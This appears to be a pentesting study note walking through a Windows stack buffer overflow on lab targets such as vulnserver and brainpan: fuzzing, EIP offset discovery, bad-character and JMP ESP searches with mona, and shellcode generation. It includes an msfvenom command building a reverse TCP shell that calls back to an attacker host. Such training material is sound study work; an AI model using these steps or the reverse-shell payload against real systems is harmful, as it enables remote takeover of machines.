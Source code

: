 ### Buffer Overflows


#### The Process:
- 1 Spiking [finds the vulnerable command]
- 2 Fuzzing [attacks the specific command]
- 3 Finding the Offset [pattern_create.rb -l 9001]
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/1_method/3_Exploitation/1_Buffer_Overflows/2_STATS.spike)
check if vulnerable

- 3 [Fuzzing](/1_method/3_Exploitation/1_Buffer_Overflows/3_fuzzing_simple.py)
```bash
msf-pattern_create -l <length>
```
Record value on EIP, select ESP and click "Follow in Dump"  
```bash
msf-pattern_offset.rb -q <value> -l <length>  
```

- 4 [Find BadChars](https://github.com/cytopia/badchars)
- [badchars](/1_method/3_Exploitation/1_Buffer_Overflows/99_badchars.md)
- [badchars.py](/1_method/3_Exploitation/1_Buffer_Overflows/4_badchars.py)

Check bad characters after EIP. common bad characters are 0x00, 0x0A. 
Follow dump in ESP to check are there something missing after that.



```bash
ESP > Follow in dump
```


	- Remove badchars as they occur to find all badchars to exclude
	- "Step by step" - careful steps, shellcode will not work with badchars
		- better to be safe than sorry, remove chars if unsure
	- Step back and check if not gaining shell

> **NOTES: Using Mona for badchar generation**

```powershell
!mona config -set workingfolder C:\monastuff
!mona bytearray -cpb '"\x00"
!mona compare -f C:\monastuff\bytearray.bin -a [ESP value]
```

- 5 Use !mona to find the offset after the overflow

Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode


[mona modules](https://github.com/corelan/mona)
```powershell
C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands
```
Load modules [find FALSE FALSE FALSE FALSE in security for dll]
```bash
!mona modules
```

```bash
msf-masm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp
```
```
!mona find -s "\xFF\xE4" -m "essfunc.dll"
!mona jmp -r ESP -m "essfunc.dll"
```
note return addresses (which will then hold the shellcode) to push into EIP 
```
0x625011af
0x625011bb
0x625011c7
```
> Other

```bash

msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
JMP ESP = FFE4

# !mona jmp -r esp -cpb "\x00\x0A" << bad character
# !mona modules
# !mona find -s "\xff\xe4" -m brainpan.exe
```
check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
e.g. 0x311712f3 >> "\xf3\x12\x17\x31"
Run again to check is the breakpoint triggered

shellcode / buffer in code is now:

```
"A" * [number of characters to EIP overwrite] + [JMP ESP location to push into EIP]
```

- 6 Follow address in Immunity debugger to test we are hitting the correct point
[offset.py](1_method/3_Exploitation/1_Buffer_Overflows/6_JMP_point.py)

```
->] 0x625011af
F2 # sets break point
```

- 7 Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.101.13 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00" -e x86/shikata_ga_nai
```
> **NOTES: Running out of shell code space?**

Use the front of payload instead

1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
```
msf-nasm_shell JMP 
msf-nasm_shell EAX
msf-nasm_shell EBX
msf-nasm_shell ECX
msf-nasm_shell EDX
```
3. Append the address as shell code.
4. Add payload to the front







